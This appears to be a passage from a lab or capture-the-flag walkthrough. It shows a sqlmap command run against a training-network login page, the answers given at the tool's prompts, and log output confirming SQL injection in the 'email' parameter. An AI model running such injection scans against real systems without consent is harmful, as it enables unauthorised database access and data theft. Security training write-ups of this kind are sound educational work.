 > It looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? \[Y/n\]: `y` For the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value? \[Y/n\]: `y` Injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? \[Y/n\]: `y` GET parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? \[y/N\]: `n`

```shell
root@ip-10-10-129-125:~# sqlmap -u 'http://10.10.32.196/ai/includes/user_login?email=test&password=test' --dbs --level=5
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:40:50 /2025-10-16/

[18:40:50] [INFO] testing connection to the target URL
[18:40:51] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:40:51] [INFO] testing if the target URL content is stable
[18:40:51] [INFO] target URL content is stable
[18:40:51] [INFO] testing if GET parameter 'email' is dynamic
[18:40:51] [INFO] GET parameter 'email' appears to be dynamic
[18:40:51] [WARNING] heuristic (basic) test shows that GET parameter 'email' might not be injectable
[18:40:51] [INFO] testing for SQL injection on GET parameter 'email'
[18:40:51] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:40:51] [WARNING] reflective value(s) found and filtering out
[18:40:52] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[18:40:52] [INFO] GET parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable (with --not-string="81")
[18:40:53] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value? [Y/n] y
[18:40:57] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:40:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:40:57] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:40:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:40:57] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[18:40:57] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[18:40:57] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:40:57] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:40:57] [INFO] GET parameter 'email' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:40:57] [INFO] testing 'Generic inline queries'
[18:40:57] [INFO] testing 'MySQL inline queries'
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[18:40:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[18:40:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
```